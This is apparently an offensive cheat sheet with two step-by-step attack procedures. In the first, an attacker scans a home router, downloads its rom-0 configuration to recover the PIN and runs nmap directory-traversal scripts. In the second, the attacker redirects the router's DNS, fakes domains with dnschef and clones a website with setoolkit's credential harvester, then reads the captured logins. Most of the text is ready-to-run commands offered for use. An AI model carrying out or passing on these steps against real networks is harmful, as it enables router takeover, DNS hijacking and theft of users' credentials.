 ---------------------------------------------------------------------

## ATTACKING ROUTERS ##
	Tools: 	nmap

	0) Find the IP Address from the router
		~route
		...on Mac OS X
		~netstat -nr
	1) Scan it with Nmap
		~nmap 192.168.1.1 -vv
	-Go to the IP Address in a browser, to get its model (TD-8840t)
	-Search for the router vulnerabilities at
		www.exploit-db.com
	2) Get the rom file from the router
		~wget http://192.168.1.1/rom-0
	3) Download a Rom Reader file (.py) to open it
		(ZTE, TP-Link, ZynOS, Huawei rom-0 Configuration Decompressor)
	4) Change its permissions and execute it to find the PIN
		~chmod +x RomReader.py
	5) Download some Nmap scripts
		nmap.org/svn/scripts/http-tlink-dir-traversal.nse
		nmap.org/svn/scripts/afp-path-vuln.nse
	AND download the vulns library to /nselib folder
		nmap.org/svn/nselib/vulns.lua
	6) Run the script on the targets IP Address
		~nmap -p80 --script http-tlink-dir-traversal.nse --script-args rfile=/tmp/ath0.ap_bss -d -n -Pn <target>

---------------------------------------------------------------------

## DNS EXPLOITATION ##
	Tools:	dnschef
			setoolkit
	
	0) Discover your own external IP Address
		~ifconfig
	1) Go into the router IP Address and change the DNS to
		Primary DNS Server: <YOUR EXTERNAL IP>
		Secondary DNS Server: 8.8.8.8	
	2) Run Dnschef to redirect a domain
		~dnschef --fakeip=192.168.1.102 --fakedomains=somewebsite.com --interface=192.168.1.102
	3) Run Setoolkit to clone a website into /var/www/
		~setoolkit
		>Social-Engineering Attacks (1)
		>Website Attack Vectors (2)
		>Credential Harvester (3)
		>Site Cloner (2)
	-Input your IP external address
		~192.168.1.102
	-Input the url to clone
		~http://www.fakesite.com
	4) Gather the information at the file located at /var/www
		~tail -f harvester_date_time.txt
